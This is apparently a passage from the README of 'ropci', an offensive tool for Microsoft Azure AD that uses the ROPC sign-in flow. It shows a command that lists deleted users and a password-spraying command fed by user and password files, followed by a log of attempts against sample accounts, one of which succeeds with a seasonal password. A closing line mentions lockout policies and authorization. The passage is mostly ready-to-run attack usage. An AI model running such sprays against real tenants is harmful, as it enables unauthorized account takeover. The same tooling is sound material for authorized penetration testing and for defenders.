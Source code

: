### List deleted users or other deleted items

When an object (e.g. user account) is deleted, it's not entirely deleted right away. It's possible to restore them within 30 days.
The following command lists the delete users:

```
./ropci call -c /directory/deletedItems/microsoft.graph.user
+--------------------------------------+-------------+------+
|                  id                  | displayName | name |
+--------------------------------------+-------------+------+
| e94d329b-ec6a-41fa-923c-fcd0eab5b12e | John Ropci  |      |
| ea9f55dc-f38b-4344-8731-a97454778094 | Ropci       |      |
+--------------------------------------+-------------+------+
```

## Password Spraying

ropci also comes with the ability to perform an ROPC based password spray.

```
./ropci auth spray --users-file users.list --passwords-file passwords.list -o result --wait 60 --wait-try 10 
Attempts: 12 for ClientID d3590ed6-52b3-4102-aeff-aad2292ab01c

Attempt 0001: alice@wunderwuzzi.net                     test1242355                     invalid username or password
Attempt 0002: tom@wunderwuzzi.net                       test123                         invalid username or password
Attempt 0003: doesnotexist@wunderwuzzi.net              test1242355                     account does not exist
Attempt 0004: tom@wunderwuzzi.net                       test1242355                     invalid username or password
Attempt 0005: tom@wunderwuzzi.net                       Sommer2022!                     invalid username or password
Attempt 0006: doesnotexist@wunderwuzzi.net              Sommer2022!                     account does not exist
Attempt 0007: alice@wunderwuzzi.net                     test                            invalid username or password
Attempt 0008: alice@wunderwuzzi.net                     test123                         invalid username or password
Attempt 0009: doesnotexist@wunderwuzzi.net              test123                         account does not exist
Attempt 0010: alice@wunderwuzzi.net                     Sommer2022!                     success
Attempt 0011: doesnotexist@wunderwuzzi.net              test                            account does not exist
Attempt 0012: tom@wunderwuzzi.net                       test                            invalid username or password
```

Be aware of any account lockout policies, and make sure you have proper authorization before engaging in such testing.
